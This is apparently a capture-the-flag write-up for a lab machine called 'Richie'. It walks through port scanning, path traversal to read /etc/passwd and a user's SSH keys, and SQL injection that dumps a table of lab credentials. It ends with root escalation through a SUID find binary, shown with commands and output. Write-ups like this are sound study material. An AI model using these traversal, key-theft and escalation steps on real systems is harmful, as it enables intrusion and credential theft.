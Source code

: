# "Richie" Writeup

Initial Recon

Namp

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Caddy httpd
8080/tcp open  http        Apache httpd 2.4.38 ((Debian))
```

Nothing massively obvious (except the FINC / SQLi) in the web pages so far

## File Includes

So we have the File includes in the main website. (In the http://127.0.0.1/index.php?page=PAYLOAD)
part.

Do the standard

  - Log files are not there but thats standard docker stuff
  - We get the /etc/passwd  which gives us a *john* user
  

## Database

There is also SQL injection on the 8080 service.

Mangle my enumeration script to get some creds (see script)

User            | Password
------------------------------
omae_wa_mou     | shindeiru
Rick_Astley     | NeverGonnaGiveYouUp
Richie          | Cooldude
John            | 6R5t768y7E654uyg
Isthis          | anSQLserver?
Hey             | ImJustMatthew
Harry           | IamaWizzard!
Evan            | Bestteammateever!
Dan             | Isalegend
Cool_Guy        | Neverseenexplosions
Baby            | Shark
Adam            | Isalegend2



## Trying Creds

 - Creds from the DB are not working with SSH
 - Logins all work on the page but dont give me anything interesting.  Dammit


## Back to Finc

 - As a Guess lets try to grab the user flag with FINC
 
Ok Thats interesting: http://127.0.0.1/index.php?page=../../../../../../home/john/user.txt

```
TODO: - Learn PHP and MySQL [IN PROGRESS] - Setup an SSH server [DONE] - Generate my SSH keys [DONE]
```

Take a look in the .ssh directory, and we find the keys... Awesome sauce,  
Quick and dirty script to grab them


## Ssh and User

cuehack{did_the_name_mislead_you?}


## Root

No Sudo

Check for SUID and get the win.

```
john@70037aabe340:~$ find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/su
/usr/bin/find
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
john@70037aabe340:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
john@70037aabe340:~$ ./find . -exec /bin/sh -p \; -quit
bash: ./find: No such file or directory
john@70037aabe340:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(john) gid=1000(john) euid=0(root) egid=0(root) groups=0(root),1000(john)



# cat /root/root.txt
cuehack{so_you_found_it}# 
```

